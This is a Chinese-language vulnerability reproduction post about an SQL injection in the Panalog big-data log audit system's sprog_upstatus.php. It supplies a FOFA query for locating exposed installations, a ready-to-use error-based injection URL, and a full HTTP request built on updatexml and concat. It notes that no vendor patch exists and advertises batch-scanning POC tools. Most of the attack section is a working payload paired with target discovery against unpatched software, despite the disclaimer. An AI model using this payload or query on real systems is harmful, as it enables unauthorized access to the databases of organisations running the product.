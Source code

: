 #  Panalog大数据日志审计系统sprog_upstatus.php存在SQL注入漏洞 附POC   
2025-5-27更新  南风漏洞复现文库   2025-05-27 15:37  
  
   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Panalog大数据日志审计系统简介  
  
微信公众号搜索：南风漏洞复现文库  
  
该文章 南风漏洞复现文库 公众号首发  
  
panalog为一款流量分析,日志分析管理的一款软件。  
## 2.漏洞描述  
  
Panalog大数据日志审计系统定位于将大数据产品应用于高校、 公安、 政企、 医疗、 金融、 能源等行业之中，针对网络流量的信息进行日志留存，可对用户上网行为进行审计，逐渐形成大数据采集、 大数据分析、 大数据整合的工作模式，为各种网络用户提供服务。Panalog大数据日志审计系统sprog_upstatus.php存在SQL注入漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
Panalog大数据日志审计系统  
  
![Panalog大数据日志审计系统sprog_upstatus.php存在SQL注入漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3ahJia65hKvBJ8oTmGsYdR6rakYzb9zGUhWud5Iq5sn4ttpCggsia3aPnFG0wWiaicibr1rhYYQdJudwYg/640?wx_fmt=png&from=appmsg "null")  
  
Panalog大数据日志审计系统sprog_upstatus.php存在SQL注入漏洞  
## 4.fofa查询语句  
  
app="Panabit-Panalog"||body="Maintain/cloud_index.php"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/Maintain/sprog_upstatus.php?status=1&id=1%20and%20updatexml(1,concat(0x7e,md5(1)),0)&rdb=1  
  
漏洞数据包：  
```
GET /Maintain/sprog_upstatus.php?status=1&id=1%20and%20updatexml(1,concat(0x7e,md5(1)),0)&rdb=1 HTTP/1.1Host: xx.xx.xx.xxUser-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*Connection: keep-aliveAccept-Encoding: gzip, deflate, br, zstdAccept-Language: zh-CN,zh;q=0.9Cache-Control: max-age=0Cookie: PHPSESSID=f8la8ttr74fkge0pttpc626p45
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ahJia65hKvBJ8oTmGsYdR6rpkPd7G4YjdvV8lY8MtHasuiaepUjdtibpj9Uw5NWyTdHzpy8Vsw8gAHA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
执行user(）函数  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ahJia65hKvBJ8oTmGsYdR6rDUaxXalf5ws4uuPEo62DicGvueEGlLib0Kia6SIzYsictc3N7eZWul3mjQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
  
  
2: 免登录，免费fofa查询。  
  
  
3: 更新其他实用网络安全工具项目。  
  
  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ahJia65hKvBJ8oTmGsYdR6r12Eicyz0icYHGuLic2K39q7TFm4XKIwb4QdDJblj8tnn1tuGB8OxeKQLg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ahJia65hKvBJ8oTmGsYdR6rZtsWOY6EVPyaTwNH3qCDwrCTdWp2t77g03W4vXXCoQRHbFiawpPb9MQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ahJia65hKvBJ8oTmGsYdR6rK26GbRoZKGVaqKTU1SHWt0NmKn4iaz0U7lT9wbicfPbNsu8Jp6aicoOrg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ahJia65hKvBJ8oTmGsYdR6riao82Nzxsd3d8XtgfpJ72UXO8M9N719h8sdFaVAibSztmrFP69AuFY5A/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ahJia65hKvBJ8oTmGsYdR6ra6vbRlGjnic8bq6Ot2lWoHD22rKHSichIOmnrpcicTFn9gUuguZUciaJVA/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
目前厂商尚未提供相关漏洞补丁链接，请关注厂商主页及时更新：https://www.panabit.com/  
## 8.往期回顾  
  
  
   
  
